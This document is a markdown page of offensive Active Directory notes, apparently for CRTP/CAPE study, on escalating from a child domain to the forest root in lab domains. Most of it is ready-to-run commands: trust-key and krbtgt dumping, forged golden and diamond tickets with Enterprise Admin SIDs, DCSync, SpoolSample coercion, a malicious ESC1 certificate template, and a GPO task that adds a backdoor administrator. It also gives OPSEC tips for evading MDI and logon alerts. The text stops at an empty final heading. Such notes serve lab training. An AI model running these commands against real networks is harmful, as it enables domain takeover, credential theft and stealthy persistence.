








---
tags:
  - cape
  - crtp
  - active-directory
  - unconstrained-delegation
---

# Intra-Forest

In Active Directory (AD) environments, trust relationships govern access across domain or forest boundaries. Within a single forest, **domains are linked by default through implicit two-way trust**.

## sIDHistory

A key attribute in these trust-based escalations is `sIDHistory`, which stores the old Security Identifier (SID) when a user account is migrated between domains. While its intended use is to preserve access to legacy resources, it creates an opportunity for privilege escalation under specific conditions, particularly through **Trust Tickets** and **ExtraSID injection**.

### Trust Tickets

**Trust Tickets** exploit the Kerberos trust mechanism between domains. When a user from a child domain requests access to services in a parent domain, a **cross-realm TGT** is issued by the child’s DC. This TGT is **encrypted with a shared trust key** and presented to the parent’s DC, which validates it using the same key. By default, this key, functionally similar to a machine account password, is the NTLM hash of the trust object and rotates every 30 days.

<div align="left"><figure><figcaption></figcaption></figure></div>

If this NTLM hash is obtained (typically RC4-based), it becomes possible to **forge a cross-realm TGT**. The forged ticket can then include privileged SIDs such as **Enterprise Admins** (`-519`) in the `sIDHistory` field, effectively tricking the parent DC into recognizing the ticket as one issued to a highly privileged user. This enables unauthorized access to services and systems in the parent domain.


```powershell
# Extract the trust key as a DA
.\SafetyKatz.exe "lsadump::trust /patch" "exit"
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$" "exit"

# Get the parent domain SID
Get-DomainSID -Domain moneycorp.local

# Forge an inter-realm TGT
.\Rubeus.exe silver /service:krbtgt/<child-domain-FQDN> /rc4:<trust-key> /sid:<child-domain-SID> /sids:<parent-domain-SID>-519 /ldap /user:Administrator /nowrap

# Request and inject a TGS
# Request and inject the TGS
.\Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:doI...hbA==

# Access the parent's domain resource
winrs -r:mcorp-dc.moneycorp.local cmd
```


Simirarly, from Linux:


```bash
# Execute the Golden Ticket attack including the target SIDs
impacket-ticketer -nthash 12b792603f994d46906474202b20b5d4 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Cache the ticket
export KRB5CCNAME=./x7331.ccache

# Get TGS using the forged TGT
impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Cache the ticket
export KRB5CCNAME=tgt@zsm.local

# DCSync
impacket-secretsdump -k -no-pass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```


### ExtraSID Injection

An attacker with control over a child domain can abuse the `krbtgt` secret to forge Kerberos tickets that impersonate privileged users in a trusted parent domain. This approach builds upon the logic of cross-domain trust abuse but targets a different step in the Kerberos authentication flow, offering a **more straightforward execution path** **with a bigger impact** as the attack can access any resource on the parent domain's DC.

This method uses the **RC4 hash of the child domain's** `krbtgt` **account** to forge a standard **Golden Ticket**. The critical twist is in **preloading the ticket with high-privilege SIDs from the parent domain**, typically by setting the `sIDHistory` to include the SID of the Enterprise Admins group (`-519`).

When this forged TGT is presented to the child DC to request access to a parent domain service, **the resulting inter-realm TGT is generated with the maliciously inserted `sIDHistory` intact**. The parent domain then validates and honors the ticket, effectively granting EA privileges to an attacker-controlled principal.

<div align="left"><figure><figcaption></figcaption></figure></div>

This approach is particularly advantageous because it targets the step **before** the inter-realm TGT is created. It avoids the need to compromise the trust account itself, relying only on the child domain’s `krbtgt` secret, which is often easier to obtain. The result is elevated access to the parent domain, including the ability to authenticate to its DCs, which normally disallows logons from users in child domains.


**OPSEC**: The Diamond ticket is the most OPSEC-friendly option.



```powershell
#--------------------------------#
# Golden Ticket as Administrator #
#--------------------------------#

# Execute the Golden Ticket attack including the target SIDs
.\SafetyKatz.exe "kerberos::golden /user:administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

.\Rubeus.exe evasive-golden /user:administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt

# Access the parent domain's DC
winrs -r:mcorp-dc cmd
```


However, when an Administrator from the child domain logs in interactively to the forest root DC, it generates alerts (event ID 4672), alerting on **high-privilege logons from unexpected accounts**.

Instead of impersonating an administrator directly, the forged ticket can represent the **machine account of the child domain’s DC**, combined with SIDs for DCs (`-516`) and Enterprise DCs (`S-1-5-9`). This simulates **legitimate replication behavior between domains and bypasses interactive logon restrictions**. Because it mimics legitimate DC-to-DC replication, this variant often evades detections, even those from advanced defenders like MDI.


```powershell
# Execute the GT attack including the target SIDs
.\SafetyKatz.exe "kerberos::golden /user:administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Execute the GT attack including the target SIDs
.\Rubeus.exe evasive-golden /user:administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt

# DCSync to extract the forest root's krbtgt credentials
.\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```


For improved OPSEC, [Diamond Tickets](../persistence/diamond-ticket.md) can be used in place of traditional Golden Tickets. Diamond Tickets **resemble legitimate Kerberos requests and include a corresponding TGT request**, making them less suspicious.


```powershell
.\Rubeus.exe diamond /krbkey:<krbtgt-aes256key> /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /tickeruserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /createnetonly:c:\windows\system32\cmd.exe /show /ptt
```


From Linux:


```bash
# Get TGT for the target (krbtgt hash of the child domain)
impacket-ticketer -nthash 0540fe51ddd618f42a66ef059ac36441 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Cache the ticket
export KRB5CCNAME=./x7331.ccache

# Get TGS using the forged TGT
impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Cache the ticket
export KRB5CCNAME=tgt@zsm.local

# DCSync
impacket-secretsdump -k -no-pass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```


## Unconstrained Delegation

DCs have [unconstrained delegation](delegations.md#unconstrained) enabled by default. As a result, if the child domain's DC is compromised, it can be leveraged for compromising the parent domain's DC.


```powershell
# Monitor for TGTs
.\Rubeus.exe monitor /interval:5 /nowrap /targetuser:DC01$
...

# Coerce authentication from DC01 to DC02
.\SpoolSample.exe dc01.mollysec.local dc02.puppy.mollysec.local

# Get a new TGT as DC01$
.\Rubeus.exe renew /ticket:doI... /ptt

# DCSync
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:mollysec.local /user:500" "exit"
```


## Configuration NC Abuse

The [Configuration Naming Context](https://learn.microsoft.com/en-us/windows/win32/ad/naming-contexts-and-partitions) (NC) (`CN=Configuration,DC=mollysec,DC=local`) is the primary repository for configuration information for a forest and is replicated to every DC in the forest.

Every change made to an object within the Configuration NC will be replicated downwards to all domains within the forest. More importantly, the reverse is also true: every change made to an object of a child domain, will be replicated upwards to the root domain.

On each DC, the `SYSTEM` account can modify the Configuration NC:

```powershell
# Enumerate ACLs in the target container
> $dn = "CN=Configuration,DC=MOLLYSEC,DC=LOCAL"
> $acl = Get-Acl -Path "AD:\\$dn"
> $acl.Access | Where-Object {$_.ActiveDirectoryRights -match "GenericAll|Write" }
...
ActiveDirectoryRights : GenericAll
IdentityReference     : NT AUTHORITY\\SYSTEM
```

### AD CS

The Configuration NC stores information about the [AD CS](../general/authentication/ad-cs.md) within various containers:

* **Certificate Templates** stores templates as `pKICertificateTemplate` objects.
* **Enrollment Services** stores one `pKIEnrollmentService` object per CA and its `certificate Templates` attributes list the published certificates.

<figure><figcaption></figcaption></figure>

This attack leverages the fact that **`SYSTEM` has `FullControl` over the Public Key Services container**. This allows us to create and publish a malicious template, which will then be replicated across the forest and becomes available to the CA.

1. Launch `MMC` as `SYSTEM` and add the Certificate Templates snap-in:


```powershell
# Open MMC as SYSTEM
.\PsExec -s -i powershell
mmc

# If the Certificate Templates snap-in is missing, install it
Install-WindowsFeature RSAT-ADCS
```


<div align="left"><figure><figcaption></figcaption></figure></div>

2. Duplicate the `User` template and create a new vulnerable one within and assign to the `Administrator` of the child domain `FullControl` over the template. In this instance, we created the `UserNew` template and made it vulnerable to [ESC1](adcs.md#esc1):

<figure><figcaption></figcaption></figure>

3. The next step if publishing the `UserNew` template via the `pKIEnrollmentService` attribute. However, `SYSTEM` does not have any kind of access over the target object:


```powershell
# Open AdsiEdit as SYSTEM
.\PsExec -s -i powershell
adsiedit
```


<figure><figcaption></figcaption></figure>

4. The `SYSTEM` account has `FullControl` over the **Public Key Services** container, so we can leverage **permissions inheritance**. We will modify the security descriptor for the Public Key Services container and gain the same rights over `pKIEnrollmentService`:

<figure><figcaption></figcaption></figure>

<div align="left"><figure><figcaption></figcaption></figure></div>

5. Confirm that `SYSTEM` has `FullControl` over the Enrollment Services and publish the `UserNew` template via modifying the `certificate Templates` attribute of the `pKIEnrollmentService` object:

<figure><figcaption></figcaption></figure>

5. Perform the [ESC1](adcs.md#esc1) attack chain:


```bash
# CSR impersonating the EA
$ certipy req -u puppy-da -p $(cat password) -template UserNew -upn molly-ea@mollysec.local -ca MOLLYSEC-CA -dc-ip 192.168.239.134 -target-ip 192.168.239.135
...
[*] Wrote certificate and private key to 'molly-ea.pfx'

# Authenticate as the EA
$ certipy auth -pfx molly-ea.pfx -dc-ip 192.168.239.134 -domain mollysec.local
...
[*] Wrote credential cache to 'molly-ea.ccache'
[*] Got hash for 'molly-ea@mollysec.local': ...:2b5...

# Validate credentials
$ nxc smb mollysec-dc01 -u molly-ea -H 2b5... -d mollysec.local
...
SMB  192.168.239.134  445  MOLLYSEC-DC01  [+] mollysec.local\molly-ea:******** (Pwn3d!)
```



```powershell
# CSR as Administrator of the root domain
> .\Certify.exe request /ca:mollysec.local\MOLLYSEC-DC01-CA /domain:mollysec.local /template:"ESC1" /altname:MOLLYSEC\Administrator

# Ensure proper PEM format PEM
$ sed -i 's/\s\s\+/\n/g' cert.pem

# Convert PEM to PFX
> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# TGT as parent's domain Administrator
> .\Rubeus.exe asktgt /domain:mollysec.local /user:Administrator /certificate:cert.pfx /ptt
```


### GPO On Site

A malicious GPO can be created and then linked (as `SYSTEM`) from a child domain to a root domain.


```powershell
# Create a malicious GPO
New-GPO "badGPO"
```


Create a malicious task within the target GPO using [`pygpoabuse`](https://github.com/Hackndo/pyGPOAbuse). In this case, we will create a new user and add them to local Administrators group:


```bash
# Create a scheduled task within the GPO
$ pygpoabuse puppy.mollysec.local/puppy-da:"Password123!" -gpo-id "B477332B-DECA-4A87-9249-AFE70874947E" -command "net user backdoorUser Password1234 /add && net localgroup Administrators backdoorUser /add" -taskname "badTask-LA" -description "Not tellling you!" -dc-ip 192.168.239.133 -v
[*] Version updated
[+] ScheduledTask badTask-LA created!
```


Confirm that the task was created via the GUI:

<figure><figcaption></figcaption></figure>

Modify the task's settings to ensure that it will run multiple times:

<div align="left"><figure><figcaption></figcaption></figure></div>

Enumerate the DN of the root's domain replication site, link the GPO from a `SYSTEM` shell, and then request a TGT ([`Invoke-Rubeus.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Rubeus.ps1)):


```powershell
# Enumerate the replication site of the root domain
> Get-ADDomainController -Server mollysec.local | Select ServerObjectDN                             
ServerObjectDN
--------------
CN=MOLLYSEC-DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=mollysec,DC=local

# Elevate to a SYSTEM shell
> .\PsExec.exe -s -i powershell.exe

# Link the malicious GPO to the default site from the SYSTEM shell
> $sitePath="CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=mollysec,DC=local"
> New-GPLink -Name "badGPO" -Target $sitePath -Server puppy.mollysec.local

GpoId       : b477332b-deca-4a87-9249-afe70874947e
DisplayName : badGPO
Enabled     : True
Enforced    : False
Target      : CN=Default-First-Site-Name,cn=Sites,CN=Configuration,DC=mollysec,DC=local
Order       : 1

# Get TGT as the new user
> Invoke-Rubeus -Command "asktgt /user:backdoorUser /password:Password1234 /domain:mollysec.local /ptt"
```


Validate the credentials remotely:


```powershell
# Validate credentials
$ nxc smb mollysec-dc01 -u backdoorUser -p Password1234
...
SMB  192.168.239.134 445  MOLLYSEC-DC01  [+] mollysec.local\backdoorUser:******** (Pwn3d!)
```


### GoldenGMSA
